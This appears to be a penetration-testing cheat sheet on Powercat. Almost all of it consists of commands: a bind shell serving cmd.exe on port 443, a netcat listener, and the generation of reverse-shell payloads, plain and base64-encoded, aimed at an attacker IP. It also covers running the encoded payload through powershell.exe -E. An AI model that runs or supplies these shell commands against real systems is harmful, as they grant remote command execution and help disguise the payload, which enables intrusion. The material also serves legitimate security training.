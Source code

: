 # Powercat

## Powercat Bind Shells

```
powercat -l -p 443 -e cmd.exe
nc 10.11.0.22 443
```

## Powercat Stand-Alone Payloads

In the context of powercat, a payload is a set of powershell instructions as well as the portion of the powercat script itself that only includes the features requested by the user

first we launch a netcat listener in attacker machine:

```
nc -nvlp 4444
```

​​we create a stand-alone reverse shell payload by adding the -g option to the previous powercat command and redirecting the output to a file. This will produce a powershell script that attacker can execute on his machine

```
powercat -c 10.11.0.4 -p 4444 -e cmd.exe -g > reverseshell.ps1
./reverseshell.ps1
```

To generate a stand-alone encoded payload, we use the -ge option and once again redirect the output to a file:

```
powercat -c 10.11.0.4 -p 4444 -e cmd.exe -ge > encrypted-reverseshell.ps1
```

The file will contain an encoded string that can be executed using the PowerShell -E (EncodedCommand) option. However, since the -E option was designed as a way to submit complex commands on the command line, the resulting encodedreverseshell.ps1 script can not be executed in the same way as our unencoded payload. Instead, Bob needs to pass the whole encoded string to powershell.exe -E so we copy the whole file and paste it in the console:

```
powershell.exe -E [code]
```
